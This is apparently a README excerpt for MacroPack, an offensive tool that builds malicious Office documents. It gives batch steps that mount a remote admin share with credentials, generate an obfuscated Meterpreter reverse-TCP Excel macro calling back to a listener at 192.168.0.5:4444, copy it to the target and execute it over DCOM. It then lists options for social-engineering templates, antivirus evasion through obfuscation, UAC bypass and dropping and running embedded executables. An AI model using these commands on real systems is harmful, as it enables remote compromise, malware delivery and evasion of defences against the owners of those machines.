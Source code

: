 - Execute a macro on a remote PC using DCOM.
```batch
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password

REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

REM Step 2 to 4 in one step:
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

```



## All community version options

```
 Main payload generation options:
    -G, --generate=OUTPUT_FILE_PATH. Generates a file. Will guess the payload format based on extension.
        MacroPack supports most Ms Office and VB based payloads as well various kinds of shortcut files.
        Note: Office payload generation requires that MS Office application is installed on the machine
    --listformats View all file formats which can be generated by MacroPack
    -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option or non VB formats
        If no input file is provided, input must be passed via stdin (using a pipe).
    -t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
        MacroPack supports multiple predefined templates useful for social engineering, redteaming, and security bypass
    --listtemplates View all templates provided by MacroPack
    -e, --embed=EMBEDDED_FILE_PATH Will embed the given file in the body of the generated document.
        Use with EMBED_EXE template to auto drop and exec the file or with EMBED_DLL to drop/load the embedded dll.


 Security bypass options:
    -o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name)
    --obfuscate-names-charset=<CHARSET> Set a charset for obfuscated variables and functions
        Choose between: alpha, alphanum, complete or provide the list of char you want
    --obfuscate-names-minlen=<len> Set min length of obfuscated variables and functions (default 8)
    --obfuscate-names-maxlen=<len> Set max length of obfuscated variables and functions (default 20)
    --uac-bypass Execute payload with high privileges if user is admin. Compatible with most MacroPack templates


 Other options:
    -q, --quiet Do not display anything on screen, just process request.
    -p, --print Display result file on stdout (will display VBA for Office formats)
        Combine this option with -q option to pipe result into another program
        ex: cat input_file.vba | macro_pack.exe -o -G obfuscated.vba -q -p | another_app
    -s, --start-function=START_FUNCTION   Entry point of macro file
        Note that macro_pack will automatically detect AutoOpen, Workbook_Open, or Document_Open  as the start function
    --icon Path of generated file icon. Default is %windir%\system32\imageres.dll,67
```